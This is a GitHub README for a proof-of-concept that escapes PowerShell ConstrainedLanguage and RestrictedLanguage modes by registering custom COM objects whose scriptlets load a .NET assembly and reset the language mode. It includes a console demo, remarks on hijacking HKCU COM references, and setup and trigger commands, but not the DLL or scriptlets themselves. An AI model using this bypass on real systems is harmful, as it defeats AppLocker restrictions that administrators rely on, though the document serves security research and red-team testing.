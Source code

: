 # DotNetToJScript Constrained/Restricted LanguageMode Breakout

This repository is based on a post by [@_xpn_](https://twitter.com/_xpn_), more details available [here](https://www.mdsec.co.uk/2018/09/applocker-clm-bypass-via-com/).

Xpn's post outlines a bug of sorts where ConstrainedLanguage, when enforced through AppLocker does not prevent COM invocation. Because of this it is possible to define a custom COM object in the registry and force PowerShell to load a Dll. On load it is possible to change the LanguageMode to FullLanguage and break out of the restricted shell.

This repo is a variation on this technique where a DotNetToJScript scriptlet is used to directly stage a .Net assembly into the PowerShell process.

## Notes

There is a similar bug to the one outlined above. While it is not possible to invoke COM objects from ConstrainedLanguage, for some reason this does not apply to RestrictedLanguage.

```powershell
# ConstrainedLanguage
PS C:\> $ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
PS C:\> $ExecutionContext.SessionState.LanguageMode
ConstrainedLanguage
PS C:\> New-Object -ComObject WScript.Shell
New-Object : Cannot create type. Only core types are supported in this language mode.
At line:1 char:1
+ New-Object -ComObject WScript.Shell
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (:) [New-Object], PSNotSupportedException
    + FullyQualifiedErrorId : CannotCreateComTypeConstrainedLanguage,Microsoft.PowerShell.Commands.NewObjectCommand

# RestrictedLanguage
PS C:\> $ExecutionContext.SessionState.LanguageMode = "RestrictedLanguage"
PS C:\> $ExecutionContext.SessionState.LanguageMode
At line:1 char:1
+ $ExecutionContext.SessionState.LanguageMode
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Property references are not allowed in restricted language mode or a Data section.
PS C:\Users\b33f> New-Object -ComObject WScript.Shell

SpecialFolders     CurrentDirectory
--------------     ----------------
System.__ComObject C:\Users\b33f
```

As a result this is also a breakout for RestrictedLanguage mode which is demonstrated in this POC. It should be noted that being "allowed to invoke COM objects" is actually inconsequential because it is trivial to hijack and existing HKCU COM reference.. yolo..

## Instructions

Either compile PLM.dll and create scriptlets for PLM.SetRL/PLM.KillRL or use the pre-generated scriptlets (**tested only on RS3/RS4**). The repo includes a PowerShell script to set up and clean up the registry entries for the POC.

```powershell
# Set up
PS C:\> . .\Stage-RLTestCase.ps1
PS C:\> Stage-RLTestCase -EnableRLSCT C:\Full\Path\EnableRL.sct -DisableRLSCT C:\Full\Path\DisableRL.sct

# Clean
PS C:\> Stage-RLTestCase -Clean
```

After running Stage-RLTestCase you should be able to issue the following command and get a MsgBox popup.

```powershell
New-Object -ComObject EnableRL
```

![EnableRL](EnableRL.png)

To disable RestrictedLanguage simply issue the following command.

```powershell
New-Object -ComObject DisableRL
```

![DisableRL](DisableRL.png)